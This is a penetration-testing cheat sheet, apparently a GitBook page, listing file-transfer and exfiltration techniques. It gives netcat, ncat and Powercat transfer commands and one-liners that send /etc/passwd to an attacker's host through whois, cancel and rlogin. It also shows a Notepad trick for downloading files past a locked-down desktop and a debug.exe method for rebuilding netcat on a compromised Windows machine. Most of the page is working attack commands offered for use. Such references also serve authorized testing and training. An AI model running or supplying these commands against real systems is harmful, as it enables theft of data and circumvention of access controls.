 # ⭕ Other Methods

## <mark style="color:red;">netcat</mark>

#### push files from client to listener (and vice versa):

```
listener: nc -nvlp [local port] > [out file]
clinet: nc [ip] [remote port] < [in file]
```

### <mark style="color:orange;">netcat HTTP server</mark>

```
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

#### this will serve a single webpage.

```
while true; do nc -l -p 80 -q 1 < error.html; done
```

## <mark style="color:red;">Powercat File Transfers</mark>

```
nc -lnvp 443 > receiving_powercat.ps1
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## <mark style="color:red;">ncat Secure Transfer</mark>

```
ncat -nvlp port --ssl > out-file
ncat -nv target-ip port --ssl < file-to-send
```

## <mark style="color:red;">WHOIS Data Exfiltration</mark>

```
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

## <mark style="color:red;">Cancel Data Exfiltration</mark>

```
cancel -u "$(cat /etc/passwd)" -h ip:port
```

## <mark style="color:red;">Rlogin Data Exfiltration</mark>

```
rlogin -l "$(cat /etc/passwd)" -p port host
```

## <mark style="color:red;">Notepad Dialog Box File Download</mark>

If you have access (RDP, physical, etc.) to a machine, but your user permissions do not allow you to open a web browser, this is a trick you can use to quickly download a file from a URL or a Universal Naming Convention (UNC) path. This also works well when you are breaking out of a locked-down application being run on a terminal.

* Open notepad
* Go to file – open
* in the File Name box near the bottom, type in the full URL path to your file

![](<../../.gitbook/assets/image (50).png>)

Notepad is kind enough to go out and grab the contents of this file for you.



## <mark style="color:red;">debug.exe</mark>

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

## <mark style="color:red;">LOLBines For Windows</mark>

#### check out these windows native tools/utilities for file transfer (download)

{% embed url="https://lolbas-project.github.io/#/download" %}
